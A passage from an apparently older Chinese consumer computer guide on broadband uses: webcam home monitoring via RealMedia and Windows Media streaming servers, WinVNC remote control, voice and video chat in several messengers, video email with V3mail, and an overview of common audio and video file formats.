弹出【多媒体剪辑信息】对话框，填写好文件的标题、作者，以及其他信息，完成后单击【下一步】按钮，如图 82 所示。


接下来将进入文件类型选择对话框，这里系统给出了两个选项，包括单一和多重传输速率选项，需要说明的是，单一速率是指此文件只提供一种网络观看速率，而多重速率则是可以根据用户不同的网络速率来呈现适当的观看速率，所以为了适应更多的用户正常浏览，那么就选中多重速率选项，然后单击【下一步】按钮，如图 83 所示。


在目标听众设置对话框中，可以选择目标听众所使用的网络传输速率，也就是说，如果选择的网络传输速度越慢，那么文件压缩的比例就会越大，而且容易失真，相对来说，用户下载花费的时间就越短。此时可以选择适合你的宽带网络选项，然后单击【下一步】按钮，如图84所示。


在音频格式设置对话框中，可以选择系统默认值“仅语音”选项，然后单击【下一步】按钮，如图85所示。


弹出视频品质设定对话窗口，在这里我们可以选择【平滑的运动视频】选项，这样可以使流媒体文件能够在网上比较流畅的播放。完成后单击【下一步】按钮，如图86所示。


称为mingjian，并设置好流媒体文件名称为rm001，以及用户登录名称和密码，单击【下一步】按钮，如图87所示。


弹出准备录制对话框，这里给出了服务器的录制信息，记住对话框中“输出”地址:mingjian:4040/rm001。最后单击【完成】按钮，结束服务器设置，如图88所示。


在输出文件对话框中，填写好文件名称，即可单击【完成】按钮返回到程序的主界面窗口了。

### (2) 发布广播

当我们完成了RM的制作以后，就可以将他们发布到网上，供网友在线视听了。执行主菜单【工具】→【创建网页】命令，然后在打开的对话框中单击【前进】按钮，会打开一个多媒体文件保存对话框，如图89所示。单击【浏览】按钮选择要生成网页的多媒体文件，然后单击【前进】按钮，打开回放模式选择对话框，如图90所示。

在这里可以选择这个多媒体网页的打开方式，比如可以直接打开播放器，或者调用网页内嵌播放器来播放文件，建议选择内嵌播放器的方式，这样兼容性比较好，然后单击【前进】按钮。

在【播放器控制面板】对话框中，建议选择【标准播放器】，并选取【自动启动】选项，完成后单击【前进】按钮。在接下来的界面的文本框中输入文件的标题名称，这个就要根据你的流媒体文件内容而定了，如图91所示。

单击【前进】按钮，选择Web文件保存的位置和名称后，单击【前进】按钮，在Web结果对话框中，还可以单击预览按钮浏览来预览一下网页的效果，最后单击【完成】按钮。


### (3) 实现远程监控

通过前面的介绍，读者朋友们已经学会了建立实时广播流媒体服务器的方法，当我们完成流媒体服务建立的时候，曾经记录了一个“输出”地址mingjian:4040/rm001，其中的mingjian表示流媒体服务器的名称，在远程访问的时候可以替换成为服务器的IP地址，比如我们在IE浏览器中可以输入地址http://61.161.203.72:4040/rm001.htm，即可在打开页面中实时监控你的家了。

### 4. WMA设网络电视广播

在前面我们介绍了通过建立RM服务器来实时监视的方法，下面来介绍以下建立一个WMA服务器实时监控的方法。

### (1) 配置服务器

启动Windows Media Encoder，在向导对话框中，选择【使用新建会话想到广播、捕获或转换文件】选项，然后单击【下一步】按钮，如图92所示。


选择【在附属设备或计算机屏幕广播实况事件】选项，然后单击【下一步】按钮，如图93所示。


在弹出的设备选择对话框中，设定好视频和音频源设备，单击【下一步】按钮，如图94所示。

如果要对视频进行设置，可以单击【配置】按钮，打开视频设置对话框，拖动滑块，调整捕获视频参数，同时观察视频图像变化，达到满意效果为止。需要提醒的是，不同的视频捕获设备，其视频配置选项也是不同的。设置完成后单击【确定】按钮返回向导对话框，如图95所示。


图94


图95

单击【下一步】按钮，Windows Media Encoder即可建立一个服务器，并给出Internet连接地址与局域网内部地址，即http://192.168.14.1:8080和http://mingjian:8080，将这些地址记住，以便日后进行访问，单击【下一步】按钮，如图96所示。


图96

在【配置文件选择】对话框中，选择适用的网络连接类型后，单击【下一步】按钮，如图97所示。


图97

依次单击【下一步】按钮，根据提示输入文件信息后，单击【完成】按钮，如图98所示。


图98

设置完成以后，返回到Windows Media Encoder的主界面窗口，单击【开始】按钮就可以让服务器正式启动，如图99所示。


图99

### (2) 实现远程监控

在前面我们已经记录了服务器发布的地址为http://mingjian:8080，此时我们只要将计算机名称换成IP地址即可，比如在浏览器地址栏输入访问地址：http://192.168.14.1:8080，这时我们就可以在远程打开实时播放的视频影像，开始监控你的家了。

### 5. 用Winvnc实现远程监控

远程控制除了pcAnywhere之外，还有很多的工具可以实现。由于pcAnywhere是一款商业软件，需要交纳一定的费用才可以正常使用，而且操作也相对比较复杂，我们再来介绍一款使用简单，而且完全免费的工具winvnc。winvnc下载地址：http://www.onlinedown.net/winvnc.htm。

### (1) 实现原理

WinVNC可以帮助你远程遥控你的电脑，它是一款真正的跨平台工具，可以在PC、MAC、UNIX系统之间实现相互监控。我们可以在两台电脑中都装上WinVNC，就可以使用“服务器/客户端”的模式进行远程控制。

式从控制端(客户端)连接到被控端(服务器端)，然后就会同步显示被控端的桌面，从而实现远程控制了。

### (2) Winvnc 提供的工具

下载并解压winvnc以后，它提供了两个工具，分别是服务器端控制程序 Winvnc，可以运行安装程序将服务端程序需要安装在被控制端。另外一个工具就是 vncviewer，这是客户端程序，通过它可以连接服务端，并实现远程控制。

### (3) 配置服务器端

在你家里的电脑中，运行 Setup 安装程序，默认情况 Winvnc 只安装了客户端查看程序，在连接设置服务端之前，还需要安装服务器程序，单击【开始】→【程序】→【VNC】→【Administrative Tools】→【Install WinVNC Service】命令，如图 100 所示。


弹出一个安装成功对话框，单击【确定】按钮，如图 101 所示。


执行 VNC 组件菜单中的 【Run WinVNC(App Mode)】命令运行服务器，弹出 【WinVNC:Current User Properties】 对话框窗口。然后在【密码】中输入用户登录的密码，然后单击【应用】按钮，并单击【确定】按钮完成设置，如图 102 所示。


这时服务器端就已经开始运行了，并在系统托盘区域产生一个图标，用鼠标右键单击此图标，并在弹出的快捷菜单中选择【属性】命令可以打开【WinVNC:Current User Properties】对话框窗口，并进行相关设置，如图 103 所示。

通过前面介绍的方法，服务器端只能允许连接一台客户端，如果有第三方客户提出连接请求，那么服务器就会断开第一台客户端，并与第三方连接，这样不利于连接更多的客户端。如果打算要服务器端连接多个客户端，可以按照如下方法实现。

在客户端运行 【Run VNCviewer (Listen Mode)】命令使客户端处于“监听”状态。

然后在服务器端执行运行 【Run WinVNC(App Mode)】命令，并用鼠标右键单击服务器端托盘处图标，在弹出的菜单中单击【添加新客户端】命令，在弹出的对话框中输入客户端IP地址或计算机名，并单击【确定】按钮，这样就可以自动连接到相应客户端，并自动打开监视窗口了，如图 104 所示。


### (4) 远程登录与遥控

现在你就可以来到你的办公室了，然后启动客户端电脑，确保已经安装了 VNC 程序，运行客户端程序【Run VNCviewer】，弹出【连线默认】对话框，在【VNC】服务器中填写服务端的 IP 地址或者计算机名称，然后单击【确定】按钮，如图 105 所示。


弹出【VNC 验证】对话框，在【作业阶段密码】中输入连接的密码，然后单击【确定】按钮。如图 106 所示。

密码输入正确以后，接下来就在一个弹出的窗口中显示出远程服务器端的桌面了，这时你就可以在远程计算机上任意进行相关操作并执行命令了。

连接成功之后，也可以在服务器端进行操作，而客户端会同步显示服务器端的桌面。

客户端一样可以同步显示服务器端所出现的全部内容，这样不但可以远程操作电脑，而且还可以监视远程用户在做什么。

监视窗口是 VNC 的远程监控界面主窗口，在此窗口中不但可以实现远程操作、监控服务端电脑，而且还可以根据自己的需要切换全屏与窗口模式。

单击监视窗口左上角图标，弹出一个快捷菜单，并选中【Full screen】命令，即可将窗口模式切换为全屏幕模式。如果将全屏幕模式切换到窗口模式，可以按下组合键【Ctrl+Esc】，并用鼠标右键单击任务栏中的监视窗口任务，并在弹出的快捷菜单中选择【Full screen】命令即可，如图107所示。

### 四、宽带网上的聊天与通信

有了宽带网络，很多原来在窄带上不能实现的事情，都能在宽带网上轻松实现了。宽带网充裕的网络带宽给网络通信与聊天带来了一个崭新的应用领域——语音、视频聊天，这使得原本无声无息的网络世界变得鲜活起来。接下来我们就为你介绍几种利用宽带网进行语音与视频聊天通讯的方法。

### (一)宽带网上的语音聊天

在以前窄带情况下，网络聊天一般都使用文字聊天方式，而文字聊天毕竟存在许多弊端，比如对那些打字速度慢的网友就不是一个很好的选择。因此，很多网民开始寻找一种更好的网络即时通讯方式。

随着宽带网络的发展，语音聊天正在逐渐由追求时尚者的网上即时通讯方式发展成为比较普遍的一种聊天方式。目前，除了宽带，很多人都具备了这样的条件，因此，我们就先来介绍利用宽带网络进行语音聊天的几种方式吧。

### 1.基本原理与解决途径

在网上进行语音聊天，首先需要电脑配备有麦克风，同时要求计算机安装有单工或者双工声卡。在有的网络语音聊天工具中，要求必须使用双工声卡，因而建议读者在选购声卡的时候，要选择双工声卡。

进行语音聊天时，聊天者可以对着麦克风进行发言，这时人的语音就会通过麦克输入到电脑中，并转为数字信号。这些数字信号通过网络传输到提供语音聊天的语音服务器中，并经服务器将聊天者的语音通过 Internet 发送给聊天对象，并将语音在聊天对象的音箱中输出。这样就完成了一个完整的语音对话过程。

目前，网上提供语音聊天的工具非常多，大致可以分为两类，一是 Web 界面的语音聊天室，二是专门的聊天工具。Web 语音聊天室直接建立在提供相关服务的网站，可以供来访者参与聊天。一般在使用 Web 聊天室的同时，网站都会要求来访者下载一个语音聊天支持模块，读者朋友可以放心下载。下载结束后就可以加入聊天室并进行聊天了。

应用于语音聊天的工具目前比较多，常见的有 QQ、MSN、雅虎通等。这些主流的聊天工具都附带有语音聊天功能。另外，还有一些专门的语音聊天工具，比如 V2Communicator 就是一款非常不错的语音聊天工具。

接下来，我们就来学习几种常用的语音聊天方式和相关操作方法吧。

### 2.QQ的语音聊天

QQ 是目前最常见的聊天工具，它提供了语音聊天功能。相对于大多数读者来说，QQ 几乎是每个网友都配备的聊天工具。下面就来介绍一下如何在 QQ 中实现语音聊天。

在 QQ 中提供了一个二人世界功能，使用该功能就可以与网友进行语音聊天。

用鼠标左键单击好友头像，在弹出的快捷菜单中单击【二人世界】命令。

打开【发送交谈请求】对话框，在文本框中输入你的申请理由，然后单击【发送请求】按钮，如图108所示。

如果对方收到请求后同意，就可以交谈了，并进入【二人世界】进行聊天了，如图109所示。

如果双方都有多媒体设备，比如话筒和耳麦，就可以同时进行语音交谈了。还可以边聊天，边在文本框中输入文字进行文字聊天，使用起来也非常方便。谈完可以点击右上角的关闭按钮即可终止交谈。

### 3. MSN 语音聊天

MSN是微软公司出品的一款网络实时聊天工具，除了支持文字聊天外，还可以通过它与网友进行语音聊天。下面就来介绍一下如何用MSN实现语音对话。

打开主界面窗口，用鼠标右键单击联系人名称，在打开的快捷菜单中，选择【开始语音对话】命令，如图110所示。

如果你的计算机上和对方的计算机已经设置了麦克风、声卡，那么就可以通过网络进行“交谈”了。如果没有设置，系统会自动打开一个向导对话框，提示你设置声卡和麦克风。

此时会打开即时通讯窗口，单击【开始交谈】按钮，此时只要等待对方的回应后，就会自动在你和被邀请人的计算机上开始运行。这时在即时消息发送窗口中会多出一个扬声器和话筒的调节滑块，同时在主窗口的【工具】栏也有一个【音频调节向导】功能，可以帮助你进行语音和电话对话的功能设置。在聊天过程中，还可以用鼠标拖动右侧【扬声器】和【话筒】滑块，改变声音大小设置，如图111所示。

### 4. 雅虎通语音聊天

雅虎通是一款免费的实时聊天工具，不但支持文字聊天，而且还支持语音、视频聊天等。同时它还提供了聊天室功能，可以与更多的网友进行交流。

使用雅虎通需要首先申请一个免费的雅虎信箱，然后就可以使用这个信箱登录雅虎通了，如图112所示。

#### (1)在语音聊天室

首先我们可以去聊天室与网友进行交谈。单击主界面窗口的【聊天】工具按钮，弹出【进入聊天室】对话框，如图113所示。

在左侧列表区选择一个要去的聊天室类型，并单击右侧的聊天室名称，然后单击【前往聊天室】按钮，进入聊天室，如图114所示。

单击工具栏【语音】按钮，在状态栏系统将提示“正在连接语音服务器”。当连接到语音服务器后，就可以选中【免按键】选项或者单击【谈话】按钮，就可以发言并参与聊天了，如图115所示。

#### (2)单独私聊

如果与某个网友聊得很投机，不妨将其加为好友。在聊天室窗口右侧的名称列表中，双击好友的ID，弹出【即时信息】对话框，然后执行菜单【朋友】→【添加为朋友】命令，如图116所示。

接下来会弹出一个【添加朋友】对话框，单击【完成】按钮即可，如图117所示。

然后系统将弹出一个是否修改联系人联系信息对话框，单击【否】按钮即可将联系人添加到朋友列表中。

如果要与好友进行语音聊天，可以在【即时消息】对话框中，单击【语音】工具按钮。如果你的朋友接受了你的语音请求，就可以开始实时语音对话了，如图118所示。

### 5. 用V2Communicator进行语音聊天

V2Communicator是一款非常优秀的专用语音聊天工具，进行语音聊天过程中声音非常清晰。下面就来介绍一下它的使用方法。

首次启动V2会弹出一个【第一次运行】对话框，单击【注册新用户】按钮注册一个V2号码。注册成功以后，即可登录V2，并打开其主界面窗口，如图119所示。

#### (1)查找聊友

单击【查找】按钮，弹出【用户查询】对话框，如图120所示。

#### (2)开始聊天

选中【随机列出在线用户】选项，然后单击【下一步】按钮，弹出查询结果对话框。用鼠标右键单击联系人，如果要将联系人设为好友，可以在弹出菜单中单击【设为好友】命令。如果打算与对方进行语音对话，可以选择【网络电话】命令，如图121所示。

无论是在好友列表中双击好友ID，还是在查找过程中选择【网络电话】命令，都可以直接给对方拨打网络语音电话，并弹出网络连接对话框，如图122所示。

当对方接受你的语音请求后，就可以进入语音聊天对话框中，这时就可以开始与对方进行语音聊天了。单击【暂时挂起】按钮可以将当前语音聊天暂时停止；如果单击【挂断】按钮可以结束当前语音对话，如图123所示。

### (二)宽带网上的视频聊天

视频聊天是近年新兴起的一种聊天方式。由于宽带网的不断普及和发展，人们对网络即时通讯的要求越来越高，不再仅仅满足于声音或者文字的交流了，人们更希望能够在网络上实现“面对面”的通讯方式。虽然可视电话技术已经得到开发，但在目前的通讯设施条件下，实现起来有很多困难。但有了宽带网络，敢于追逐时尚潮流的人开始尝试着通过宽带网来实现自己的梦想。目前看来，只要网络带宽足够的大，通过一些辅助软件的支持，这是能够实现的。何况，即时视频聊天也是通讯发展的大趋势。因此，我们就在这里先来体验一下宽带网视频聊天吧。

### 1.视频聊天及原理简述

视频聊天需要有提供视频聊天服务器的网站，并且开通了视频聊天服务。相对于用户来说，使用视频聊天需要在本地电脑安装有摄像头或者具有摄像头的数码相机、摄像机等，这是最基本的硬件配置。此外，还需要安装有声卡、麦克风等输入设备，做为语音传输的载体。聊天用户将自己的视频图像通过摄像头输入电脑中，并被转换成为数字编码文件，通过网络传输给远程服务器，并经远程服务器中转传输给视频聊天对象。

网络视频聊天一般可以分为通过 Web 方式聊天室进行，另外一种就是通过专用的视频聊天工具。目前Web网络视频聊天服务的聊天室比较多，比如第六视频聊天室(www.6see.com)、即时视听娱乐(http://chat.gznet.com/)、蝶谷聊天室(http://www.butterfly8.com/chat.htm)等。除了去网络视频聊天室参与聊天话题之外，还可以使用专门的视频工具进行聊天，目前比较常用的包括 MSN Messager、QQ 视频、雅虎通等。

### 2.MSN Messenger视频聊天

由于 MSN Messenger 软件本身并不提供视频对话功能，因而如果要进行视频聊天就需要借助 Netmeeting 来实现。实现视频聊天的方法也比较简单，下面就来介绍一下。

#### (1)启动MSN

启动 MSN Messenger，如图124所示。

双击联系人名称，弹出联系人【对话】框，如图125所示。

单击对话框右侧的【启动 Netmeeting】连接，如果对方接受了我的邀请，就可以启动Netmeeting了，如图126所示。

#### (2)配置Netmeeting

首次启动运行Netmeeting后，系统会打开一个配置向导对话框。在第一步向导对话框中，点击【下一步】按钮进入个人基本资料填写对话框，填写好用户资料后，单击【下一步】按钮，如图127所示。

在接下来的步骤中需要选择目录服务器，选中【当Netmeeting启动时登录到服务器】选项，并在下面的【服务器名】中选中【Microsoft Internet 目录】，然后单击【下一步】按钮，如图128所示。

弹出【选择连线方式】对话框，可以根据自己的实际情况选择网络连接的速率。如果你是在局域网中，可以选择【局域网】；如果是宽带上网，那么可以选择第三项。完成后单击【下一步】按钮，如图129所示。

在接下来的界面中单击下一步进入音频调节向导。进入音频调节对话框后，按下【测试】按钮测试音箱的音量大小。如果音量正常的话，单击【下一步】按钮进入录音音量设定对话框。此时对着话筒说几句话，如果正常后，点击【下一步】按钮，并单击【完成】按钮，结束启动设置，如图130所示。

#### (3)视频对聊

启动并进入Netmeeting主界面，同时会弹出一个【拨入呼叫】对话框，单击【接受】按钮，即可进入Netmeeting主界面窗口，如图131所示。

下面就可以使用Netmeeting进行视频聊天了。单击菜单【查看/我的视频】可以打开本地视频对话框。单击【发送视频】按钮，也可以通过单击【工具】菜单，指向【视频】，然后单击【发送】来发送视频。启动视频后，按钮变为【停止视频】。要停止视频，可以单击【停止视频】按钮，这样就可以将你的视频发送给网友了。同样，如果网友也打开了视频，你同样可以看到对方，如图132所示。

接收视频的方法是，打开【工具】菜单上的【视频】，然后单击【接收】命令即可。此时视频窗口会显示出传送过来的视频信息。

NetMeeting 提供完全的音频功能，音频功能可支持麦克风、扬声器和电话。这里需要提醒的是，声卡既可以是半双工的也可以是全双工的。半双工音频仅允许一个人说话，全双工音频则允许两个会议参加者同时说话。

单击主界面【调节音频音量】按钮，打开音量调节对话框。移动麦克风或音频滑块来增减音量。需要注意的是，要屏蔽麦克风或扬声器，可以清除在麦克风和扬声器图标旁的相应复选框即可。同时NetMeeting可以自动过滤掉背景杂音，如图133所示。

如果声卡具有全双工功能，NetMeeting 将自动使用。但是如果发现音质较差，可以禁用此功能。可以执行菜单【工具】→【选项】命令，在弹出的对话框中，选择【音频】选项卡，清除【启动全双工音频以便可以在接收音频的同时说话】复选框，如图134所示。

当接通视频和音频以后，就可以对着麦克风畅所欲言了。

### 3. VQQ视频通话

为了推广视频即时通信的应用，腾讯公司为宽带用户推出了具有视频功能的即时通信软件VQQ，而且是对所有宽带用户免费开放。只要是宽带用户，并且都装有摄像头，并成功安装或升级到 QQ 0630c版本以上，那么在聊天的同时，不仅可以通话，还可以看到对方的动作、表情。

在QQ面板中用鼠标左键单击好友的头像，在弹出的菜单中选择【视频电话】选项。【视频电话】有两个子菜单，分别是【视频电话】和【视频调节】。如果是第一次使用VQQ，或者更换了视频设备，就需要在开始视频聊天之前选择【设置向导】来调整音频、视频参数，如图135所示。

#### (1)视频调节向导

单击【设置向导】命令，在弹出的对话框中单击【下一步】按钮，弹出【语音质量/压缩率】对话框，选择设置【更好的质量】，并将【声音过滤/话筒灵敏度设置】设置为“高”，然后单击【下一步】按钮，如图136所示。

单击【下一步】按钮弹出【音量设置】对话框，此时可以对着话筒说话并根据听到的声音调节滑杆来设置音量，如图137所示。

单击【下一步】按钮弹出网络速度选择属性对话框，在这里可以根据所使用的网络来采用系统预定义的视频压缩方案，也可以使用自定义设置。设置好后，单击【下一步】按钮，如图138所示。

弹出【视频预览】对话框，在这里可以看到根据压缩率和相关设置模拟出来的本地和远程画面。一般情况下远程视频将比本地视频质量要稍差一些。可以点击“源设备设置”对视频设备进行设置，不同的视频设备有不同的设置选项，如图139所示。

#### (2)视频电话

完成视频向导设置后就可以开始视频聊天了。单击子菜单上的【视频电话】，弹出一个【发送请求】对话框，在附言中填写你的请求，然后单击【发送请求】按钮，如图140所示。

当对方接受你的视频请求后，就可以打开视频聊天的界面，如图141所示。

在界面底下的文字框中输入文字与对方进行文字聊天，如果戴上耳机并配有话筒，就可以直接跟对方进行语音交谈。在任何时候如果不想让对方听到你的声音或看到你的视频画面，只要分别按下文字框上部话筒和摄像机图标按钮就可以了，再次按下就可以恢复。在聊天过程中，单击界面右上角的“×”按钮可以退出聊天过程。

## 4. 雅虎通视频聊天

首先来启动本地视频，在雅虎通主界面窗口中，执行主菜单【工具/开启我的摄像头】命令，启动【我的即时影像】视频对话框，如图142所示。

图142

### (1)邀请好友观看我的视频

在雅虎通好友列表中，用鼠标右键单击好友ID，然后在弹出的菜单中执行【邀请朋友观看我的即时影像】命令，如图143所示。

图143

弹出【邀请朋友观看我的即时影像】对话框，单击【发送邀请】按钮，如图144所示。

图144

图145

如果朋友接受了你的邀请，就可以看到你的视频了。那么如何检测那些在观看你的视频呢？可以在【我的即时影像】对话框中，执行主菜单【即时影像/谁在观看我的即时影像？】命令，即可弹出【即时影像】对话框，在列表中会列出当前正在观看你的即时影像的朋友，如果不想让某人观看你的影像，可以选中他的名称，然后单击【删除】按钮，如图145所示。

### (2)请求观看好友即时影像

在好友列表或者聊天室中，如果发现某个朋友的头像是一个方形的电视图标，这就说明此人正在播放即时影像，这时你就可以申请观看他的即时影像了。
用鼠标右键单击好友名称，然后在弹出的菜单中执行【观看即时影像】命令；或者在与好友聊天对话框中，执行菜单【朋友 / 观看朋友的即时影像】命令，即可弹出申请对话框，如果朋友同意了你的请求，那么就可以观看他的即时影像了，如图146所示。

图146

### (三)听得见、看得到的宽带时代邮件

电子邮件是最为普遍应用的一种基本网络服务，进入宽带，不但可以在网上与朋友随心所欲畅谈，而且还可以给朋友撰写视频、音频邮件，这就极大的为我们的网络世界带来了更加精彩的一面。

### 1. V3mail Shareware

V3mail 是一款集发送语音邮件和视频邮件于一身的邮件工具，我们可以利用数码相机或麦克风录制影像或声音，并制作出个性化的影音邮件，然后再通过 V3mail 发送生动的影音邮件，对于收信者，可以使用任何的邮件软件来接收，如果你没有数码相机或麦克风录制影像或声音，还可以使用 V3mail 发送纯文字信息的邮件，同时还可以自定义不同的字型、字型颜色、字型大小等。下载地址是：http://www.onlinedown.net/v3mail.htm。

启动 V3mail 并进入其主界面窗口，它的主界面窗口就是一个写邮件窗口，提供有菜单栏、工具栏，在地址栏输入栏中包括to(收件人地址)cc (抄送地址) bcc (暗送地址) subject(信件标题)，以及正文区，在输入文字的时候可以在格式控制栏中定义文字的字体、字号、颜色、字型等，如图 147 所示。

图147

### (1)配置邮箱

在发送邮件之前，我们先来设定用于发送视频邮件的邮箱，执行主菜单【options/program settings】命令，弹出【program settings】对话框，在【Video&Audio Encorders】选项中可以修改音频和视频压缩格式，这里我们将音频压缩格式选择为MP3格式，视频压缩格式选择为【windows Video encoder(AVI)】选项，如图 148 所示。

图148

单击【Email Setting】选项下面的【Advanced】按钮，弹出电子邮件程序设置对话框，在【your name】中输入发件人名称，并在【your email address】中指定电子邮件地址，在【reply-to address】中指定回复地址，并设定好邮件发送服务器地址【outgoing mail (smtp) server】，完成后单击【OK】按钮，如图 149 所示。

图149

### (2)录制语音邮件

如果要给朋友发送语音邮件，可以单击主界面窗口中的【Voice】按钮，弹出录制声音对话框，单击【REC】按钮就可以开始录制声音了，录制完后单击【停止】按钮结束。然后可以单击【播放】按钮进行试听，感到满意后单击【attach】按钮，就可以将录制后的声音文件做为附件添加到邮件体中，并返回到主界面窗口，单击【send】按钮将邮件发送出去，如图 150 所示。

图150

### (3)录制视频邮件

发送视频邮件可以单击工具栏中的【video】按钮，弹出一个视频录制对话框，单击【REC】按钮开始录制，录制结束以后可以单击【attach】按钮将视频添加到邮件附件中。如图151所示。

在界面的上方还有三个按钮，单击【format】按钮，弹出【视频格式】设置对话框，在【分辨率】下拉列表中选择合适的分辨率后，单击【应用】按钮，如图152所示。

图152

单击界面上方的【source】按钮，可以修改数码相机、数码摄像机等视频源的采集格式、帧率等，如图153所示。

图153

单击【Codes】按钮可以用来改变压缩率和帧率和压缩质量，选择不同的压缩算法等，如图154所示。

图154

录制结束以后，单击【attach】按钮返回到邮件主界面窗口，填写好收件人地址等信息后，就可以单击【send】按钮发送了，如图155所示。

### 2. 语音、视频邮件相关工具

除了上面介绍的 V3mail Shareware 外，语音、视频邮件相关工具软件还比较多，比如还有：VideoLive Mail、MaxxNote、Honestech video mail、王潮语邮播放器、V2mail 等等，这些软件的功能各有所长，但使用方法都比较简单，限于篇幅，我们这里就不一一介绍了，感兴趣的读者可作进一步学习比较，找出最适合自己需要的一款。

### 五、宽带网络视听

多媒体文件往往体积都比较大，在网络上传播时，上传与下载时间都比较长。随着流媒体技术的出现，就在一定程度上解决了下载时间过长的问题；流媒体的出现给网络视听带来了可能；随着宽带的普及，流媒体的应用领域将更加广泛。

### (一)网络视听概述

网络视听主要采用的是流媒体技术，目前网络视听包括网络收音机、网络电视台、网络电影点播等。流媒体在网络播放过程中首先会在网络中发送音频或视频剪辑的第一部分，在第一部分开始播放的同时，媒体文件的其余部分源源不断的“流”出，及时到达目的地供播放所用，因而在在线播放流媒体文件的时候无需全部下载就可以直接播放。目前支持流媒体播放的主要工具包括RealPlay和Microsoft的Media Play 等。

在2002年上半年《电脑爱好者合订本》附录分册中有专题对流媒体技术进行过详细的介绍，有意作进一步学习的读者可以查阅。

常见的网络文件主要有以下几种类型。

### 1. RealAudio格式

这是Real Networks公司开发的一种网络流媒体格式，包含了Real Networks公司所制定的音频、视频压缩规范(称为 RealMedia)，主要用于在低速率的因特网上实时传输音频信息，可以边下载边收听，文件格式包括有 RA(RealAudio)、RM (RealMedia)，RealAudio G2)、RMX (RealAudio Secured)。对于14.4Kbps的网络连接，可获得调幅(AM)质量的音质;对于28.8Kbps的连接，可以达到广播级的声音质量;如果使用ISDN或ADSL等更快的线路连接，则可获得CD音质的声音。它会被经常用于网络广播、网络音乐、视频实时播放，播放过程也很简单，只要拥有其播放器RealPlay就可以直接播放，另外，还可以使用RealPlay的浏览器插件，在浏览器中选择音乐并进行播放。

### 2. MP3(MP1, MP2)

MP3的全称是MPEG1 layer 3，它是MPEG1 Audio压缩标准的一个组成部分。MPEG1 Audio是VCD影像压缩标准的音频部分的压缩标准，这个标准主要有三层，即Layer 1、Layer 2和Layer 3。这里的MPEG1 Audio的各层编码方式的区别主要是对音频文件的压缩率和要求播放媒体提供数据的速率不同，而且各层内部采用的算法也是不同的，随着layer数的增大而越来越复杂。经过Layer 1编码的文件后缀为MP1，依次分别为MP2(MPA)MP3，这也是MP3的名字的由来。对于MP3来说，它能够将CD品质的数字录音压缩成极小的文件，可以将一首完整的歌曲压缩成短小而易于管理的音乐文件，可以将MP3文件压缩成比光盘文件小12倍的文件。一个40多兆的WAV音乐文件可以被压缩成4兆的MP3歌曲。MP3是目前最为流行的一种音乐文件，在网上有很多可以下载MP3的站点，还可以通过一些交换软件进行音乐交换。Winamp就是一款播放MP3的著名软件。

### 3. MP4

其实MP4并不是MP3压缩的一个升级版本，它的出现完全是为改变MP3无版权保护这一状况而诞生的，采用了“知觉编码”技术来进行版权加密保护，它的压缩比可以达到1:15，比MP3还高。MP4内嵌了用来播放这种格式的播放器，使得每一首MP4音乐文件可以直接播放。MP4的音质与MP3相当，压缩率只比MP3略高，可以实现版权的保护问题，只有许可用户才可以播放下载的MP4音乐。它的播放过程很简单，只要直接选择文件就可进行播放了。

### 4. MID

MIDI是Music Instrument Digital Interface的缩写，意思是:音乐设备的数字化界面，是目前最成熟的音乐格式，MIDI是数字乐器接口的国际标准，它的General MIDI就是最常见的通行标准。作为数码音乐的工业数据通信标准，MIDI能指挥各音乐设备的运转，而且具有统一的标准格式，能够模仿原始乐器的各种演奏技巧甚至无法演奏的效果，而且文件的长度非常小。MID和RMI这两种文件扩展名表示该文件是MIDI文件，MID文件的优点是短小，一个六分多钟、有16个乐器的文件也只是80多KB，缺点是播放效果因软、硬件而异。如果要达到比较好的播放效果，需要电脑必须支持波表功能，比较有名的软件波表如YAMAHA SXG，可以达到与真实乐器几乎一样的效果。

### 5. VQF音频文件

VQF是日本YAMAHA公司购买NTT公司的技术开发出来的一种音频压缩格式，采用了TwinVQ音频压缩技术，音频压缩率比MP3高，可以达到1:18左右，而且音质和MP3不相上下。它的最大的优势是可以用低于MP3文件大小获得和MP3一样的声音质量，但是目前支持它的制作、播放软件比较少，而且制作时间较长，目前在网络上的VQF音乐还不多。播放VQF音频文件，可以使用YAMAHA Sound Player等工具进行播放，其他播放器比如Winamp需要安装相应插件才能播放。

### 6. WMA

它是微软发表的一种音频和视频压缩格式，即Windows Media Audio 7（.WMA文件）压缩的离散文件或流式文件，WMA相对于MP3的主要优点是在较低的采样频率下它的音质要好些，WMA文件以5Kbps、8KHz到192Kbps、44MHz的采样频率录制。采取和VQF一样的减少数据流量但保持音质的方法来达到比MP3压缩率高的目的，压缩率和VQF差不多，可以达到1:18左右，如果数据流量选用96Kbps的话音质量和128Kbps的MP3没区别，但体积就可以减少1/3。融合了RA格式和VQF的优点，并且克服了它们的缺点，如果数据流量选64Kbps，音质还原也相当不错，但体积就有MP3的一半。其播放可以使用Windows自带的媒体播放器，或者使用Winamp都是可以实现的。

### 7. WAV

WAV是最常见的音频格式，具有很高的音质，但因没有经过压缩，所以每分钟的音频约占10MB的存储空间，目前在网上并不流行，一般常被用作录制音乐使用，可以使用Windows的媒体播放器进行播放，另外，很多多媒体播放器都支持WAV音频格式。

### 8. MPEG、MPG、DAT

MPEG全称是Moving Pictures Experts Group，现存三个版本的MPEG格式，即MPEG-1，MPEG-2，MPEG-4。MPEG具有很好的兼容性。MPEG能够比其他算法提供更好的压缩比，最高可达200:1，对数据的损失很小。MPG是压缩视频的基本格式。MPG还有两个变种，即MPV和MPA。MPV只有视频不包含音频，MPA是不包含视频的音频。MPEG-1目前正被广泛地应用在 VCD 的制作和一些视频片段下载的网络应用上面，99%的VCD都是用 MPEG1 格式压缩的，使用 MPEG-1 可以把一部 120 分钟长的电影压缩到 1.2 GB 左右大小。MPEG-2 应用在 DVD 的制作，同时在一些 HDTV(高清晰电视广播)和一些高要求视频编辑、处理上面也有相当的应用面。使用 MPEG-2 的压缩一部 120 分钟长的电影可以到压缩到 4~8GB 的大小。DIVX 视频编码技术是一种由 Microsoft mpeg4 v3 修改而来压缩编码技术，采用了 MPEG4 的压缩算法，只需要安装 MPEG4 编码驱动，使用 Windows 自带的媒体播放器就可以流畅的播放。

### 9. ASF

ASF 是 Advanced Streaming format 的缩写，是Microsoft为了和现在的 Real player 竞争而发展出来的一种可以直接在网上观看视频节目的文件压缩格式，采用了 MPEG4 压缩算法，压缩率和图像的质量都很不错。ASF 比同是视频“流”格式的 RAM 格式播放效果要好一些。

### 10. AVI与N AVI

